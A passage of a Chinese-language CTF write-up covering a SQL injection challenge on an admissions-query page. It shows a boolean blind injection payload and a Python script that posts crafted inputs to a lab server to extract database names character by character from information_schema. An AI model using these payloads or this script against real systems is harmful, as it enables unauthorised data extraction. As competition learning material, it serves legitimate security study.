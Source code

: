 ![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15537901281822.jpg)

**`xgctf{G0od_vimAnnnd_phPcheCk}`**

-------

### 5.录取查询

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15537905006159.jpg)

查看源码等几次观察下来就知道此题是sql注入题。
先是用sqlmap试了一下，发现并不好用，于是开始手工注入。
在手工尝试的同时，用OWASP ZAP工具对该网页进行了一次扫描，发现一个sql注入漏洞
![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538440621517.jpg)
于是开始了几次注入尝试，由上次省赛经验所得,检索其数据库名，表名等信息一个一个字符去匹配比较合适，于是采用
`' OR 1=1 and (ascii(substr(database(),1,1)))>100--`
去尝试成功

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538442215621.jpg)

便去找了基础脚本，进行修改编写请求

```python
import requests
import string

url = 'http://10.129.2.227:49004/luqu_query.php'
s = string.printable
payload='\' OR 1=1 '
sucesskey='恭喜'

def submit(url,payload):
    data={
        'username':payload,
        'ksh':'\''
    }
    headers={
        'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    r = requests.post(url, data=data,headers=headers)
    return r.text

def getDatabase():

    database = ''
    for i in range(50):
        for j in s:
            keypayload=payload+' and (select substr((select group_concat(schema_name) from information_schema.schemata),'+str(i+1)+',1) in ("'+str(j)+'")) --'
            text = submit(url,keypayload)
            text=text.encode('UTF-8')
            if sucesskey in text:
                database += j
                break

    print database
```
